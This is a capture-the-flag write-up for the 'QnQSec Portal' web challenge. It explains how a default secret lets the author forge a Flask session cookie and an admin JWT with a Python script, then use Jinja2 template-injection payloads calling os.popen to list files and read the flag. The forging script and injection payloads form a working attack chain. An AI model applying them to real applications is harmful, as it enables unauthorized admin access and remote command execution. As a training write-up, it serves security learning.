


# QnQSec Portal — QnQSec CTF 2025

> **Room / Challenge:** QnQSec Portal (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** QnQSec CTF 2025
- **Challenge:** QnQSec Portal (web)
- **Target / URL:** `http://161.97.155.116:5001/`
- **Points:** `50`
- **Date:** `20-10-2025`

---

## Goal

We have to get the flag by get access as admin.

## My Solution

First we have to examine the [app.py](./app.py). There are some noticable routes:

/login route:

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('login.html')

    db = get_db()
    row = db.execute(
        'select username, password from users where username = lower(?) and password = ?',
        (username, md5(password.encode()).hexdigest())
    ).fetchone()

    if row:
        session['user'] = username.title()


        role = "admin" if username.lower() == "flag" else "user"
        token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])

        resp = make_response(redirect(url_for('account')))
        resp.set_cookie("admin_jwt", token, httponly=False, samesite="Lax")
        return resp

    flash('Invalid username or password', 'error')
    return render_template('login.html')

```

/account route:

```python
@app.route('/account')
def account():
    user = session.get('user')
    if not user:
        return redirect(url_for('login'))
    if user == 'Flag':
        return render_template('account.html', user=user, is_admin=True)
    return render_template('account.html', user=user, is_admin=False)
```

If we try sign up an account and login we can see that there are 2 authentication and authorization keys `admin_jwt` and `session` in cookies:


and this is the UI:


Initially, I thought that I will brute-force the password of the `flag` account since `flag` is the admin:

```python
def init_db():
    with sqlite3.connect(DB_PATH, timeout=10) as db:
        db.execute('PRAGMA journal_mode=WAL')
        db.execute('drop table if exists users')
        db.execute('create table users(username text primary key, password text not null)')

        db.execute('insert into users values("flag", "401b0e20e4ccf7a8df254eac81e269a0")')
        db.commit()
```

and the password is hash by this algorithm:

```python
md5(password.encode()).hexdigest()
```

However I have tried using several common passwords list, all are incorrect so I think it is a dead end.

After some time examining the code, I found the admin_jwt can be encoded correctly for the back-end to verify it:

```python
token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])
```

The `JWT_SECRET` is implemented by this:

```python
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
```

If the `Q_SECRET` is undefined then it takes `qnqsec-default`, I have checked my created `JWT_SECRET` with the `admin_jwt` value from server it said correct in [jwt.io](https://jwt.io):


However the `/account` page validates the `session` value it also use the `base` value as `SECRET_KEY`:

```python
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
```

Therefore, we can easily implement our own session value and gain access as `flag`, which means `admin`. Here is our strategy we will create a JWT with this payload:

```python
{
    "sub": "Flag",
    "role": "admin",
}
```

Then create a `session` with this payload:

```python
{"user": "Flag"}
```

Here is the code to create JWT and session:

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
import hashlib
import jwt

app = Flask(__name__)
app.secret_key = hashlib.sha1(("pepper:" + "qnqsec-default").encode()).hexdigest()


serializer = SecureCookieSessionInterface().get_signing_serializer(app)

session_data = {"user": "Flag"}

session_cookie_value = serializer.dumps(session_data)
print("session cookie value:\n", session_cookie_value)

secret = hashlib.sha256(b"jwtpepper:qnqsec-default").hexdigest()
payload = {
    "sub": "Flag",
    "role": "admin",
    "iat": 1760794390,
    "exp": 9999999999
}
headers = {"typ":"JWT", "alg":"HS256"}
token = jwt.encode(payload, secret, algorithm="HS256", headers=headers)
if isinstance(token, bytes):
    token = token.decode()

print("admin_jwt token:\n", token)
```

Use the created JWT and session to change value in browser and go to `/account`:



Visit `/admin`:


Server-side template injection now takes place, we can try `{{ 7*7 }}` and got `49`. We can use template injection here:

```
{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}
```

Result:

```bash
total 4608 drwxr-xr-x 1 ctf ctf 4096 Oct 20 02:31 . drwxr-xr-x 1 root root 4096 Oct 17 10:45 .. -rw-r--r-- 1 ctf ctf 473 Oct 17 01:18 Dockerfile -rw-r--r-- 1 ctf ctf 842 Oct 16 23:46 README.md drwxr-xr-x 1 ctf ctf 4096 Oct 17 10:45 __pycache__ -rw-r--r-- 1 ctf ctf 1637 Oct 16 23:46 admin_routes.py -rw-r--r-- 1 ctf ctf 0 Oct 18 13:54 ale -rw-r--r-- 1 ctf ctf 4295 Oct 16 23:46 app.py -rw-r--r-- 1 ctf ctf 0 Oct 17 18:32 awikwok -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 awokawok -rw-r--r-- 1 ctf ctf 105 Oct 16 23:49 compose.yml -rw-r--r-- 1 ctf ctf 17359 Oct 17 19:19 index.html -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 jejak -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 ninggalin -rw-r--r-- 1 ctf ctf 12 Oct 16 23:46 requirements.txt drwxr-xr-x 1 ctf ctf 4096 Oct 17 13:49 secret drwxr-xr-x 1 ctf ctf 4096 Oct 16 23:46 static drwxr-xr-x 1 ctf ctf 4096 Oct 16 23:46 templates -rw-r--r-- 1 ctf ctf 4636672 Oct 20 02:11 users.db
```

Next:

```
{{ cycler.__init__.__globals__.os.popen('ls -la ./secret').read() }}
```

Result:

```bash
total 16 drwxr-xr-x 1 ctf ctf 4096 Oct 17 13:49 . drwxr-xr-x 1 ctf ctf 4096 Oct 20 02:31 .. -rw-r--r-- 1 ctf ctf 40 Oct 16 23:46 flag.txt
```

Get the flag:

```
{{ cycler.__init__.__globals__.os.popen('cat ./secret/flag.txt').read() }}
```

Flag: `QnQsec{b4efafeb4bd43c404e425ea6d664a0f6}`
